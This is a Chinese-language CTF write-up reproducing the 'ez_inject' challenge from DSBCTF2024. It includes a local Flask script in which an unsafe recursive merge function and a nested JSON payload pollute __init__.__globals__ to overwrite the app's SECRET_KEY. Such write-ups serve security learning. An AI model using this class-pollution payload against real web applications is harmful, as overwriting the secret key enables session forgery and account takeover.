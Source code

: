 
## ez_inject 【复现】

**bao**师傅出的题目，又学到新姿势了。[出题人讲解](https://baozongwi.xyz/2024/11/13/DSBCTF2024/)

现在来仔细复现一下，一个学习原型链污染的好机会，被知识**了两天。看到师傅思路，太赞了。

注册一个账号，看看各个路由下的内容

![1](https://the0n3.top/medias/show-DSB/1.png)

![2](https://the0n3.top/medias/show-DSB/2.png)

![3](https://the0n3.top/medias/show-DSB/3.png)

题目提示可以在登录或者注册处污染密钥

本地调试污染过程

```python
from flask import *
import os
app = Flask(__name__)
app.config['SECRET_KEY'] = 'th1s_i5_rea1_k3y'

class test:
    def __init__(self):
        pass

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

print(app.config['SECRET_KEY'])
instance = test()
payload = {
    "__init__":{
        "__globals__":{
            "app":{
                "config":{
                    "SECRET_KEY":"abc"
                }
            }
        }
    }
}
merge(payload, instance)

print(app.config['SECRET_KEY'])
```
